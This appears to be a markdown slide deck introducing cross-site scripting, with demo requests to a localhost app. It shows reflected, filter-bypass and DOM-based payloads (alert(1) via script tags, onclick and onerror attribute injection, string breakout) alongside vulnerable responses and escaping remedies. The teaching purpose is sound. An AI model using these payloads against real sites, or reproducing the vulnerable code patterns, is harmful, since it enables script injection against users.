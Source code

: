 # XSS Intro

---
```
                                Web Server
                                  ______ 
Client's Browser                 [.....°]
 ____                            [.....°]
|    | [naughty input in params] [|||||°]
|____|<------------------------->[|||||°]
/::::/    [return bad HTML]      [_____°]
   ^                             [_____°]
   |                             [_____°]
   |
   |
   '----.
XSS happens here
```
---
# What is the point?

## Execute JS

* from data supplied somewhere earlier (stored)
* from data somewhere in the request (reflected)

---
# Basic XSS

## Request:
	
[http://localhost:8000/basic?q=%3Cscript%3Ealert(1)%3C/script%3E](http://localhost:8000/basic?q=%3Cscript%3Ealert(1)%3C/script%3E)

## Response:

```html
...
<div class="page">
  <div>Your query is: <script>alert(1)</script> </div>
</div>
...
```

---

# Naughty characters

	>   <   /   '   "

## Less naughty characters

	;   )   (   =

---

# The Remedy

## Request

[http://localhost:8000/xss1?q=%3Cscript%3Ealert(1)%3C/script%3E](http://localhost:8000/xss1?q=%3Cscript%3Ealert(1)%3C/script%3E)

## Response

```html
...
<div class="page">
  <div>Your query is: &lt;script&gt;alert(1)&lt;/script&gt; </div>
</div>
...
```

---

# HTML Entities

	>     <     /  '      "      ;  )  (  =

## =>

	&gt;  &lt;  /  &#39;  &#34;  ;  )  (  =

---

# Oops !

## Request

[http://localhost:8000/xss2?q=bye%3A%29%20onclick%3Dalert%281%29](http://localhost:8000/xss2?q=bye%3A%29%20onclick%3Dalert%281%29)

## Response

```html
...
<div class="page">
  <input value=bye:) onclick=alert(1) name=q type=text />
</div>
...
```

---

# My Custom Filter

```python
re.subn("[<>//]","", a)[0]   # All tags are gone ;)
```

## Request

[http://localhost:8000/xss3?q=%3Cscript%3Ealert(1)%3C/script%3E](http://localhost:8000/xss3?q=%3Cscript%3Ealert(1)%3C/script%3E)

## Response

```html
...
<div class="page">
  <script>
    var a = 'scriptalert(1)script';
    console.log(a);
  </script>
</div>
...
```

---

# Oops !

## Request

[http://localhost:8000/xss3?q=%27-alert%281%29-%27](http://localhost:8000/xss3?q=%27-alert%281%29-%27)

## Response

```html
...
<div class="page">
  <script>
    var a = ''-alert(1)-'';
    console.log(a);
  </script>
</div>
...
```

---

# The Deep XSS

## Smile :)

[http://localhost:8000/xss4#https://tinyurl.com/ybwcp4fs](http://localhost:8000/xss4#https://tinyurl.com/ybwcp4fs)

## :(

[http://localhost:8000/xss4#x%20onerror=alert(1)](http://localhost:8000/xss4#x%20onerror=alert(1))

## The Code

```html
...

    <script>
        var a = window.location.hash.replace('#', '');
        document.write("<img src=" + decodeURI(a) + " />");
    </script>
...
```

---

# Conclusion

It is not so simple :)

https://github.com/cure53/XSSChallengeWiki
